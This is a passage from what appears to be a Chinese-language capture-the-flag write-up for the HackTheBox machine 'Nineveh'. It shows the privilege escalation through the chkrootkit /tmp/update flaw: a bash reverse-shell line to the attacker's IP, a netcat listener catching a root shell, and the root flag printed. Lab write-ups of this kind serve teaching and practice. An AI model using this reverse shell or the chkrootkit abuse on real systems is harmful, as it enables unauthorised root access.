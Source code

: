 

使用 pspy 枚举下当前运行的进程相关信息，下载地址：https://github.com/DominicBreuker/pspy/blob/master/README.md ，得出来目标靶机运行了chkrootkit

chkrootkit 本地提取漏洞之前 vulnhub 里复现过

`chkrootkit` 有一个本地提权漏洞，https://www.exploit-db.com/exploits/38775 不管是啥版本，先利用一把试试 ，看了提权代码，最终是要做的就是此程序会以 root 身份周期性执行 /tmp/update 的文件，所以我们只需要新建 tmp 目录下的 update 文件，里面写入反弹shell 代码即可



```bash
amrois@nineveh:~$ cd /tmp
amrois@nineveh:/tmp$ vi update
amrois@nineveh:/tmp$ cat update
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.5/6666 0>&1
amrois@nineveh:/tmp$ chmod +x update
```

```bash
└─# nc -lvnp 6666                                                                                                                                           127 ⨯
listening on [any] 6666 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.43] 50638
bash: cannot set terminal process group (23338): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@nineveh:~# cat /root/root.txt
cat /root/root.txt
25f889f5e5642bbd75d912750ff155fe
```
